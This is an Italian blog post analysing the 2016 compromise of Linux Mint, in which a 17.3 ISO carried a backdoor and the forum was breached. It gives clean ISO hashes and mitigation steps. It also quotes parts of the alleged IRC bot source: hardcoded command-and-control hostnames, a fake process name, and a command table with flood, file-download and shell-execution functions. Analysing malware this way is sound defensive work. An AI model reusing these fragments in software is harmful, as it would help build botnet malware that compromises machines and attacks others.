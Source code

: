 ```yaml
---
layout: post
title: "Linux Mint, la ISO intorno al buco"
promotion: "Linux Mint ha subito una compromissione e alcune delle sue ISO contengono una backdoor. "
modified: 
featured: true
category: [Spinaci]
tags: [linux, linux mint, backdoor, opensource, vulnerability warning]
image:
  feature: mint.jpg
  credit: sausyn
  creditlink: https://flic.kr/p/5HN8oL
comments: true
share: true
---
```


Nella giornata di ieri, sul blog della distribuzione [Linux
Mint](http://www.linuxmint.com), viene
[annunciato](http://blog.linuxmint.com/?p=2994) che a seguito di un'intrusione
subita nella stessa giornata del 21 Febbraio, è stato possibile per
l'attaccante modificare la ISO della versione 17.3 della distribuzione,
inserendo una backdoor al suo interno.

Cosa ha funzionato. Sicuramente la comunicazione chiara e trasparente.
Ammettere di avere un problema, significa avere a cuore i propri utenti.

> The hacked ISOs are hosted on 5.104.175.212 and the backdoor connects to
> absentvodka.com.

Cosa non ha funzionato. Il loro programma di Vulnerability Management. Poi ci
sta, trovi l'attaccante bravo e succede che entra. Però se distribuisci una tua
distro Linux, i tuoi clienti si aspettano il top lato sicurezza informatica.

Comunque, dato che può succedere, se siete utilizzatori di questa distribuzione
Linux, controllate che l'MD5 dell'ISO installata sulle vostre macchine sia una
di queste:

{% highlight sh %}
6e7f7e03500747c6c3bfece2c9c8394f  linuxmint-17.3-cinnamon-32bit.iso
e71a2aad8b58605e906dbea444dc4983  linuxmint-17.3-cinnamon-64bit.iso
30fef1aa1134c5f3778c77c4417f7238  linuxmint-17.3-cinnamon-nocodecs-32bit.iso
3406350a87c201cdca0927b1bc7c2ccd  linuxmint-17.3-cinnamon-nocodecs-64bit.iso
df38af96e99726bb0a1ef3e5cd47563d  linuxmint-17.3-cinnamon-oem-64bit.iso
{% endhighlight %}

In caso contrario, riformattate da zero la macchina e cambiate tutte le
password delle web application a cui avete acceduto da quando avete installato
l'ISO compromessa.

## E il forum

In un [secondo post](http://blog.linuxmint.com/?p=3001), si da notizia che
anche il [forum](http://forums.linuxmint.com) è stato compromesso. Sono stati
quindi interessati i seguenti dati degli utenti:

{% highlight sh %}
Your forums username
An encrypted copy of your forums password
Your email address
Any personal information you might have put in your signature/profile/etc…
Any personal information you might written on the forums (including private topics and private messages)
{% endhighlight %}

Dai commenti, di utenti preoccupati, sembrerebbe esserci sempre lui di mezzo:
[WordPress](https://wordpress.org).

## La backdoor

Come da [post su Hacker News](https://news.ycombinator.com/item?id=11146257),
questo sarebbe il presunto [codice sorgente in
C](https://gist.github.com/thesp0nge/9f4ac5235b709c563e24) della backdoor
introdotta nella ISO di Mint.

Diciamo che è solo presunto, in quanto la segnalazione viene da un pentester di
Perth, tale [Anthony Cozamanis](https://www.linkedin.com/in/acozamanis) e non
ho capito il legame tra lui, la distribuzione e l'attacco.

Si parte subito molto bene. Definisco un po' di costanti che mi fanno
immaginare che si vada a parare nel territorio dei server IRC.

{%highlight c%}
#define STARTUP 1
#undef IDENT// Only enable this if you absolutely have to
#define FAKENAME "apt-cache"// What you want this to hide as
#define CHAN "#mint"// Channel to join
#define KEY "bleh"  // The key of the channel
int numservers=5; // Must change this to equal number of servers down there
char *servers[] = {
  "updates.absentvodka.com",
  "updates.mintylinux.com",
  "eggstrawdinarry.mylittlerepo.com",
  "linuxmint.kernel-org.org",
  "updates.absentvodka.com",
  (void*)0
};
{% endhighlight %}

Nel main, troviamo ad un certo punto, la preparazione delle informazioni una
connessione IRC e una routine, _identd()_ che non fa altro che aprire sulla
macchina compromessa, un demone sulla porta 113, solitamente utilizzata da
[identd](https://en.wikipedia.org/wiki/Ident_protocol).


{% highlight c %}
  nick=makestring();
  ident=makestring();
  user=makestring();
  chan=CHAN;
  key=KEY;
  server=NULL;
  sa:
#ifdef IDENT
  for (i=0;i<numpids;i++) {
    if (pids[i] != 0 && pids[i] != getpid()) {
      kill(pids[i],9);
      waitpid(pids[i],NULL,WNOHANG);
    }
  }
 pids=NULL;
 numpids=0;
  identd();
#endif
  con();
{% endhighlight %}

In poche parole, l'host compromesso si connette ad uno dei server IRC
specificati all'inizio, e si trasforma in uno zombie. L'attaccante, usando il
protocollo IRC, invia i comandi ai suoi zombie per fare _cose brutte_.

{% highlight c %}
struct FMessages { char *cmd; void (* func)(int,char *,int,char **); } flooders[] = {
  { "TSUNAMI", tsunami },
  { "PAN", pan },
  { "UDP", udp },
  { "UNKNOWN", unknown },
  { "NICK", nickc },
  { "SERVER", move },
  { "GETSPOOFS", getspoofs },
  { "SPOOFS", spoof },
  { "DISABLE", disable },
  { "ENABLE", enable },
  { "KILL", killd },
  { "GET", get },
  { "VERSION", version },
  { "KILLALL", killall },
  { "HELP", help },
{ (char *)0, (void (*)(int,char *,int,char **))0 } };
{% endhighlight %}

La backdoor viene fornita anche con un help molto parlante.

{% highlight c %}
void help(int sock, char *sender, int argc, char **argv) {
  if (mfork(sender) != 0) return;
  Send(sock,"NOTICE %s :TSUNAMI <target> <secs>                          = Special packeter that wont be blocked by most firewalls\n",sender); sleep(2);
  Send(sock,"NOTICE %s :PAN <target> <port> <secs>                       = An advanced syn flooder that will kill most network drivers\n",sender); sleep(2);
  Send(sock,"NOTICE %s :UDP <target> <port> <secs>                       = A udp flooder\n",sender); sleep(2);
  Send(sock,"NOTICE %s :UNKNOWN <target> <secs>                          = Another non-spoof udp flooder\n",sender); sleep(2);
  Send(sock,"NOTICE %s :NICK <nick>                                      = Changes the nick of the client\n",sender); sleep(2);
  Send(sock,"NOTICE %s :SERVER <server>                                  = Changes servers\n",sender); sleep(2);
  Send(sock,"NOTICE %s :GETSPOOFS                                        = Gets the current spoofing\n",sender); sleep(2);
  Send(sock,"NOTICE %s :SPOOFS <subnet>                                  = Changes spoofing to a subnet\n",sender); sleep(2);

  Send(sock,"NOTICE %s :DISABLE                                          = Disables all packeting from this client\n",sender); sleep(2);
  Send(sock,"NOTICE %s :ENABLE                                           = Enables all packeting from this client\n",sender); sleep(2);

  Send(sock,"NOTICE %s :KILL                                             = Kills the client\n",sender); sleep(2);
  Send(sock,"NOTICE %s :GET <http address> <save as>                     = Downloads a file off the web and saves it onto the hd\n",sender); sleep(2);
  Send(sock,"NOTICE %s :VERSION                                          = Requests version of client\n",sender); sleep(2);
  Send(sock,"NOTICE %s :KILLALL                                          = Kills all current packeting\n",sender); sleep(2);
  Send(sock,"NOTICE %s :HELP                                             = Displays this\n",sender);

  Send(sock,"NOTICE %s :IRC <command>                                    = Sends this command to the server\n",sender); sleep(2);
  Send(sock,"NOTICE %s :SH <command>                                     = Executes a command\n",sender); sleep(2);
  exit(0);
}
{% endhighlight %}

Una mitigazione fast & furious se pensate di avere delle Mint Linux installate
e compromesse nelle vostre reti?

Bloccate sui firewall perimetrali il traffico in uscita, verso gli host:

* updates.absentvodka.com
* updates.mintylinux.com
* eggstrawdinarry.mylittlerepo.com
* linuxmint.kernel-org.org
* updates.absentvodka.com

## Off by one

Questo incidente cosa ci deve insegnare? Da nuova benzina alla polemica open vs
closed sui temi di sicurezza? No, niente di tutto questo. Deve insegnare, che
quando metto online una serie di servizi, devo trattarli tutti con la stessa
attenzione, applicando politiche di sicurezza e hardening, facendo i dovuti
test del caso e applicando le patch.

Sono nozioni che ormai vengono ripetute allo sfinimento. Qualcuno le seguirà
mai?

Enjoy it.
